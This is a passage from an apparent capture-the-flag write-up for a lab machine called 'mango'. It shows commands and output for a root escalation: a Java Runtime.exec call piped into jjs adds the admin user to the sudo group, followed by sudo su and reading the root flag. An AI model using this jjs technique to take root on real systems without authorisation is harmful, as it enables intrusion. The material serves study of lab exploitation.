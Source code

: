 ```bash
/usr/share/bash-completion/completions/usermod
/usr/share/man/de/man8/usermod.8.gz
/usr/share/man/fr/man8/usermod.8.gz
/usr/share/man/it/man8/usermod.8.gz
/usr/share/man/ja/man8/usermod.8.gz
/usr/share/man/man8/usermod.8.gz
/usr/share/man/pl/man8/usermod.8.gz
/usr/share/man/ru/man8/usermod.8.gz
/usr/share/man/tr/man8/usermod.8.gz
/usr/share/man/zh_CN/man8/usermod.8.gz
/usr/share/man/zh_TW/man8/usermod.8.gz
admin@mango:/home/admin$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/usr/sbin/usermod -a -G sudo admin').waitFor()" | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('/usr/sbin/usermod -a -G sudo admin').waitFor()
0
jjs> admin@mango:/home/admin$ exit
exit
$ su - admin
Password: 
$ id
uid=4000000000(admin) gid=1001(admin) groups=1001(admin),27(sudo)
$ bash
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@mango:/home/admin$ sudo su
[sudo] password for admin: 
root@mango:/home/admin# wc /root/root.txt 
 1  1 33 /root/root.txt
```

Finally a real root shell. After that I removed admin from sudo group immediately.